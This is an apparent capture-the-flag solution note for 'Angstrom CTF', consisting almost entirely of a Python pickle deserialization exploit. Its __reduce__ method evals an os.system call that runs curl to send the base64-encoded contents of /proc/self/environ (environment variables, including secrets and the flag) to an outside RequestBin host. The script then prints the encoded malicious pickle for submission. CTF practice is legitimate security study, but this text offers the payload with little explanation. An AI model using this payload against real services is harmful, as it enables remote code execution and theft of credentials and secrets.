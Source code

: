 # Angstrom CTF

1. PICKLE related problems and the flag was A env flag ->
    ```python
    import base64
    import pickle

    class rce():
        def __reduce__(self):
            return (eval, ("os.system('curl https://enbgdei302k4o.x.pipedream.net/ -d \"$(cat /proc/self/environ | base64)\"')",))
            # https://enbgdei302k4o.x.pipedream.net/ <- RequestBin.com

    code = pickle.dumps(rce())
    print(base64.b64encode(code))
    ```
